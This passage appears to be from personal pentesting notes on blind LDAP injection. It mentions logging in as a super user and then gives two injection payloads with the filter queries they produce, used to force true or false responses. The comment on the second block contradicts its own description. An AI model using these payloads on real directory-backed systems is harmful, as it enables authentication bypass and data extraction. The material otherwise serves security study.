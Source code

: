 **![Pasted image 20241011172731.png](../../../../IMAGES/Pasted%20image%2020241011172731.png)

Seems like we've logged in as super user!


# BLIND LDAP INJECTION

You may force False or True responses to check if any data is returned and confirm a possible Blind LDAP Injection:


```ldap
This will result on True, so some information will be shown

Payload: *)(objectClass=*))(&objectClass=void
Final query: (&(objectClass= *)(objectClass=*))(&objectClass=void )(type=Pepi*))
```


```ldap
#This will result on True, so no information will be returned or shown

Payload: void)(objectClass=void))(&objectClass=void
Final query: (&(objectClass= void)(objectClass=void))(&objectClass=void )(type=Pepi*))
```
